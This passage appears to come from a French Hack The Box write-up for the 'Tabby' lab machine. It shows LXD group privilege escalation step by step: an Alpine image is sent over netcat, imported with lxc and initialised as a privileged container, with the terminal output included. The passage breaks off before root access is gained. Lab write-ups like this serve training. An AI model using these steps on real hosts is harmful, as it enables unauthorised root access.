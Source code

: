 ~~~
root@Host-001:~/Bureau/htb/Tabby/lxd-alpine-builder# ls
alpine-v3.12-x86_64-20200715_1241.tar.gz  build-alpine  LICENSE  README.md
root@Host-001:~/Bureau/htb/Tabby/lxd-alpine-builder# 
~~~

On transfère l'image sur le serveur tomcat avec netcat

~~~
root@Host-001:~/Bureau/htb/Tabby/lxd-alpine-builder# nc -w 3 10.10.10.194 1337 < alpine-v3.12-x86_64-20200715_1241.tar.gz
~~~

Coté tomcat:

~~~
ash@tabby:~$ nc -lp 1337 > alpine-v3.12-x86_64-20200715_1241.tar.gz
nc -lp 1337 > alpine-v3.12-x86_64-20200715_1241.tar.gz
ash@tabby:~$ ls
ls
alpine-v3.12-x86_64-20200715_1241.tar.gz  user.txt

ash@tabby:~$ lxc image list
lxc image list
+-------+-------------+--------+-------------+--------------+------+------+-------------+
| ALIAS | FINGERPRINT | PUBLIC | DESCRIPTION | ARCHITECTURE | TYPE | SIZE | UPLOAD DATE |
+-------+-------------+--------+-------------+--------------+------+------+-------------+
ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20200715_1241.tar.gz --alias oxssorz
<e-v3.12-x86_64-20200715_1241.tar.gz --alias oxssorz
ash@tabby:~$ lxc list image
lxc list image
+------+-------+------+------+------+-----------+
| NAME | STATE | IPV4 | IPV6 | TYPE | SNAPSHOTS |
+------+-------+------+------+------+-----------+
ash@tabby:~$ lxc image list
lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
| oxssorz | 4e8a4ac93b00 | no     | alpine v3.12 (20200715_12:41) | x86_64       | CONTAINER | 3.05MB | Jul 15, 2020 at 11:20am (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
ash@tabby:~$ 

ash@tabby:~$ lxc init oxssorz rootimage -c security.privileged=true
lxc init oxssorz rootimage -c security.privileged=true
Creating rootimage
Error: No storage pool found. Please create a new storage pool
ash@tabby:~$ lxd init
lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 

Do you want to configure a new storage pool? (yes/no) [default=yes]: 

Name of the new storage pool [default=default]: 

(...)
ash@tabby:~$ 
ash@tabby:~$ lxc init oxssorz rootimage -c security.privileged=true
lxc init oxssorz rootimage -c security.privileged=true
Creating rootimage
ash@tabby:~$ 
~~~